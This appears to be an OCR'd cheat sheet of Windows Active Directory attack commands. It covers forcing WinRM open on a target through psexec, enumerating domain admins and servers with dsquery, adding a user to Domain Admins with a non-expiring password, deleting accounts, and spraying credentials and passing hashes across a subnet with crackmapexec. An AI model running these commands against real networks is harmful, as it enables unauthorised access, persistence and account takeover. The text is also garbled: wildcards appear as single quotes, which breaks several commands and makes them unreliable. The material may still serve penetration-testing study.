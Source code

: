 * WinRM command execution via `psexec`
```bat
# force open WinRM on the target (use with caution)
.\psexec.exe \\<target> -u <domain>\<username> -p <password> -h -d powershell.exe "enable-psremoting -force"
```

* `dsquery` domain enumeration and manipulation; note that `'` acts as a wildcard
``` bat
:: list users on a domain
dsquery user -limit 0

:: list groups for a specific domain; this example uses `brian.com`
dsquery group "CN=users,DC=brian,DC=com"

:: list domain admin accounts
dsquery group -name "domain admins" | dsget group -members -expand

:: list all groups for a user
dsquery user -name <username>' | dsget user -memberof -expand

:: get a user's login ID
dsquery user -name <username>' | dsget user -samid

:: list accounts inactive for 2 weeks
dsquery user -inactive 2

:: list all operating systems on a domain; this example uses `brian.com`
dsquery ' "DC=brian,DC=com" -scope subtree -attr "cn" "operatingsystem" "operatingSystemServicePack" -filter "(&(objectClass=Computer)(objectCategory=Computer)(operatingSystem=Windows'))"

:: list all subnets within a site
dsquery subnet -site <sitename> -o rdn

:: list all servers within a site
dsquery server -site <sitename> -o rdn

:: find servers in the domain `brian.com`
dsquery ' domainroot -filter "(&(objectClass=Computer)(objectCategory=Computer)(operatingSystem='Server'))" -limit 0

:: domain controllers per site
dsquery ' "CN=Sites,CN=Configuration,DC=forestRootDomain" -filter (objectCategory=Server)

:: add a domain user to domain `brian.com`
dsadd user "CN=<username>,CN=Users,DC=brian,DC=com" -samid <loginid> -pwd <password> -display "<displayname>" -pwdneverexpires yes -memberof "CN=Domain Admins,CN=Users,DC=brian,DC=com"

:: delete a user from domain `brian.com`
dsrm -subtree -noprompt "CN=<username>,CN=Users,DC=brian,DC=com"
```

* `crackmapexec` enumeration
``` bat
:: iterate known credentials over other hosts in a subnet
.\crackmapexec <ip>/<cidr> -u <username> -p <password>

:: alternatively, authenticate using one of the below pass-the-hash methods
.\crackmapexec <ip>/<cidr> -u <username> -H <lmhash>:<nthash>
.\crackmapexec <ip>/<cidr> -u <username> -H <nthash>

:: note that -u, -p, and -H accept multiple arguments or filenames of lists

:: list currently logged in users
.\crackmapexec localhost -u <username> -p <password> --lusers
```